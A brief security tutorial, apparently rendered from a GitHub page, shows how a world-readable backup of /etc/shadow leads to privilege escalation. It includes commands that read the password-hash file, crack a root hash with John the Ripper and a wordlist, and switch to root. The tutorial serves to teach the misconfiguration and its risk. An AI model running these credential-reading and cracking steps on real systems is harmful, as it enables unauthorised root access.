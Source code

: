### Sensitive File /etc/shadow Backup Scenario

Let's create a backup of the `/etc/shadow` file, we shall never do the following:

```shell
sudo cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /tmp/shadow.bak
```

This is a Linux-sensitive file, this file contains the user password hashes and is now readable by other users and groups. As the adversary, we could attempt to crack the hashes of these users:

```shell
user@pwn:~$ cat /tmp/shadow.bak
root:$6$xxxxxxxxxxxxxxxxxxxxxxx:18982:0:99999:7:::
daemon:*:18858:0:99999:7:::
bin:*:18858:0:99999:7:::
sys:*:18858:0:99999:7:::
sync:*:18858:0:99999:7:::
<...SNIP...>
```

We can copy this hash and save it in a file called `hash.txt`:

```shell
❯ echo '$6$xxxxxxxxxxxxxxxxxxxxxxx' > hash.txt
```

We could then try to crack the hash to recover the password:

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

As we can see below, the password has been cracked:

```shell
❯ john hash.txt --show
?:pass123

1 password hash cracked, 0 left
```

Once we have cracked the root user password we can switch to the root user:

```shell
su root
```